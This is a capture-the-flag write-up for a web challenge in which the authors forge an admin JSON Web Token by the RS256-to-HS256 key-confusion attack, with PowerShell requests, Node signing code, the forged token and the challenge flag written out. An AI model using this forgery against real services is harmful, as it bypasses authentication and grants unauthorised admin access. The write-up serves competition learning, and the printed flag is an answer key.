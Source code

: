 # Unlock Me

> Points: 927 [1000]

## Description 
>Our agents discovered COViD's admin panel! They also stole the credentials **minion:banana**, but it seems that the user isn't allowed in. Can you find another way?  
>
> [Admin Panel](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/)  
>This challenge:
>
>- Unlocks other challenge(s)
>- Is eligible for Awesome Write-ups Award
>- Prerequisite for Mastery Award - Web Warrior

## Solution
This challenge was interesting as we were able to learn about new jwt type attacks given the public key. Overall it was a freshing and new web challenge for us!

The credentials username banana and banana were given to us. The link brings us to the COViD HQ login. Attempting random credentials gives us the `Incorrect credentials` error. However when attempting to login using the credentials provide, us a different error `Only admins are allowed into HQ!`.

Upon closer inspection into the source code of html this was found
```html
<script>
$( "#signinForm" ).submit(function( event ) {
  event.preventDefault();
  fetch("login", {
    method: "POST",
    headers: {
      "Content-Type": "application/json"
    },
    body: JSON.stringify({"username": $( "#inputUsername" ).first().val(), "password": $( "#inputPassword" ).first().val() })
  }).then(function(response) {
    return response.json();
  }).then(function(data) {
    if (data.error) {
      $('#alerts').html('<div class="alert alert-danger" role="alert">'+data.error+'</div>');
    } else {
      fetch("unlock", {
        headers: {
          "Authorization": "Bearer " + data.accessToken
        }
      }).then(function(response) {
        return response.json();
      }).then(function(data) {
        if (data.error) {
          $('#alerts').html('<div class="alert alert-danger" role="alert">'+data.error+'</div>');
        } else {
          $('#alerts').html('<div class="alert alert-success" role="alert">'+data.flag+'</div>');
        }
      }).catch(function(error) {
        $('#alerts').html('<div class="alert alert-danger" role="alert">Request failed.</div>');
      })
    }
  }).catch(function(error) {
    $('#alerts').html('<div class="alert alert-danger" role="alert">Request failed.</div>');
  })
});
// TODO: Add client-side verification using public.pem
</script>
```

Upon seeing this we thought why not trying to access [public.pem](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/) file directly which gave us the actual public.pem.

In addition the `fetch("login")` and `fetch("unlock")` seem to api routes.

As such we decided to query to api directly using powershell's `Invoke-RestMethod` to query the `/login`

```powershell
irm -Method Post "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/login" -ContentType "application/json" -Body (@{username="minion";password="banana";}| ConvertTo-Json)
```

This gave us the access token to minion's account will be verified later
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1pbmlvbiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjA3NDIxMDcwfQ.x6nDrEn2HrT0Ey807PaevMobHpXxlEBJmRh1DsHEPhuYAJqxRrsgYP6SEpegOZ0WP8TmmHPmXc3Vq0vvZfHy4fKE91_m0a0oC9kyg8TziamJGu7htDl2niivf3w_Kf2A6nvmVc--z8bvGD2ir3gtHr4oncC53K7M7nOSdNbdXEPOczSE-TzijpaunMcr9oltmkMNWqwVl7JZgdTqbgUob5kxk9sSshiZEfZ-U45Ykc1WfecTWC_vgLmMaM8xvgGmcg_DxzM9cIMOC3Cmq96a3X7pZC3JkTk0KSOI1UUrue-2fCm2FimdABy9QrcZc9f4FyiVECX5jlt5Dq5BUFQWWv5k1d3ddOyG0T9EBf-jhmCGl581ixkDFtE44RNP8us2kyaffKWytR11xUEx13-OQowHc9yfIYi6nfbw2_ZCwTJgLBMQmkX72vyhsvAHGTjR8q2UKpEafIxDIVxy8IImXCSyuoOrpwDVzjewmBaLFYdgA80gzEHxYGq5OwMeDusyEFC_piJzy7J6FVJt7XIdxws1beswddaYfkEawRCHwYMqAg_qF63ws9omgyOQmTRq0KSYlyMU-5iOMC9QnKolpgyxqIBUizqV6sCQlKC6b9MYlSfo282vSecAe-EhMG2oE-oq5T_FMPzOyr4w_jh8aeVrHJIWM_qXnJOLuV04m7s
```

At this point we were quite stuck until we manage to find this https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/ which mentions the `None` algorithm attack. To test this we installed nodejs and jsonwebtoken
and ran the following code
```javascript
const jwt = require('jsonwebtoken')
let cert = fs.readFileSync('./public.pem')
let token = "thejwttokenfromabove"
payload = jwt.verify(token,cert)
payload
{ username: 'minion', role: 'user', iat: 1607421070 }
```
At this point we altered the payload and tried the none algorithm.

```javascript
payload['username']='admin'
'admin'
payload['role']='admin'
'admin'
payload
{ username: 'admin', role: 'admin', iat: 1607421070 }
jwt.sign(payload,cert,{algorithm:"None"})
Uncaught Error: "algorithm" must be a valid string enum value
    at /root/test/node_modules/jsonwebtoken/sign.js:52:15
    at Array.forEach (<anonymous>)
    at validate (/root/test/node_modules/jsonwebtoken/sign.js:43:6)
    at validateOptions (/root/test/node_modules/jsonwebtoken/sign.js:58:10)
    at Object.module.exports [as sign] (/root/test/node_modules/jsonwebtoken/sign.js:141:5)
```
At this point, I rechecked the same article saw another `RS256` to `HS256` vulnerability. Trying it, I was able to successfully generate a HS256 jwt token!

```javascript
jwt.sign(payload,cert,{algorithm:"HS256"})
'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNjA3NDIxMDcwfQ.UxWelBJcgZWuFjT8GB0zyw9tbsANLkbZr9dAGnC1wDI'
```
Using the token above I tried to call the `/unlock` which gave me the flag! Whoorays!

```powershell
irm "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/unlock" -Headers @{Authorization="Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNjA3NDIxMDcwfQ.UxWelBJcgZWuFjT8GB0zyw9tbsANLkbZr9dAGnC1wDI";}

flag
----
govtech-csg{5!gN_0F_+h3_T!m3S}
``` 

## Flag
`govtech-csg{5!gN_0F_+h3_T!m3S}`

